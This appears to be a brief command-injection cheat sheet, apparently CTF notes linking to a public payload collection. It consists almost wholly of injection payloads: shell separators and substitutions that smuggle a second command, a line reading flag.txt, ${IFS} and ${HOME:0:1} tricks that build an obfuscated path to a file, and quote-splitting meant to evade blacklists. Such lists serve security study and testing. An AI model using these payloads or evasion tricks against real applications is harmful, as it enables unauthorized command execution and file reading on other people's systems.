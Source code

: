### Command Injection

---

[command](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
```py
ls;pwd, ;ls, $(ls), `ls`
123;cat flag.txt
ls;pwd&&ls
'ls;ls${IFS}-la'
$(cat${IFS}..${HOME:0:1}..${HOME:0:1}fl``ag.tx``t)
```

Filtering

```py
use single or double quotes to bypass blacklists
"w"h"o"am"i"
```

